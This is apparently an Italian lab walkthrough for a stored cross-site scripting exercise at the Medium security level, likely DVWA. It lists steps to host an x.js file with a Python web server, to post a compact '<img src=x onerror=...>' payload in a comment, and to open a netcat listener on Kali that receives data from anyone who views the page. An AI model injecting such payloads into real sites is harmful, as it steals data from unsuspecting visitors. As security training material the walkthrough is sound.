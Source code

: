 ### **1️⃣ Step 1: Preparazione**

1. Configura il server web e utilizza lo stesso file `x.js` preparato per il livello Low.
2. Avvia il server web:
   
   ```bash
   python3 -m http.server 80
   ```

### **2️⃣ Step 2: Inserimento Payload**

Poiché il livello Medium ha restrizioni di lunghezza, utilizza un payload compatto:

```html
<img src=x onerror="location='/x.js'">
```

### **3️⃣ Step 3: Avvia il Listener**

Configura un listener su Kali per ricevere i dati:

```bash
sudo nc -lvnp 4444
```

### **4️⃣ Step 4: Risultati**

Quando il commento viene visualizzato, il file `x.js` viene caricato e i dati raccolti vengono inviati al listener.

![XSS Stored Medium](./Screenshots/XSSStoredMedium.png)

---

## 📊 Dati Raccolti
